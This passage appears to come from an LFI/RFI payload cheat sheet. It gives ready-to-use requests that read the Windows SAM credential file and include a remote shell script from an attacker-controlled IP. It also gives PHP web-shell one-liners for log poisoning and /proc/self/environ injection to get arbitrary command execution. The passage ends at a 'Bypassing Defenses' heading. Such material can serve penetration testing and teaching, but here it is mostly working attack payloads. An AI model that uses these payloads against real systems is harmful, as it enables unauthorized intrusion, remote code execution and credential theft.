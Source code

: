 ## Basic LFI Payload (Windows)
   - Retrieve the content of the Windows SAM file:
     ```
     http://<target_domain>/vulnerable.php?file=C:\windows\system32\config\SAM
     ```

## Remote File Inclusion for Remote Code Execution
   - Inject a URL to a malicious script hosted on the attacker's server:
     ```
     http://<target_domain>/vulnerable.php?file=http://<attack_ip>/shell.txt
     ```

## PHP Code Injection via Log Poisoning
   - Poison web server logs with PHP code, then include the log file:
     ```
     <?php system($_GET['cmd']); ?>
     ```

   - Access the log file through LFI to execute the code:
     ```
     ../../../../var/log/apache2/access.log
     ```

## Execute Arbitrary Code via Environment Injection (LFI)
   - Some files like `/proc/self/environ` can be exploited to inject code:
     ```
     http://<target_domain>?page=../../../../proc/self/environ
     ```

   Inject environment variables to run code:
   ```
   <?php echo shell_exec('whoami'); ?>
   ```

## Log Poisoning for Code Execution via LFI
   - If the application logs data to files that are included via LFI, an attacker can inject code into the logs. This technique, known as log poisoning, allows for the execution of arbitrary code.
   - Example:
     1. Access a URL that is logged by the web server:
        ```
        http://<target_domain>?page=<?php system($_GET['cmd']); ?>
        ```
     2. Include the log file through LFI:
        ```
        http://<target_domain>?page=../../../../var/log/apache2/access.log
        ```

     The PHP code is executed when the log file is included.

# Bypassing Defenses
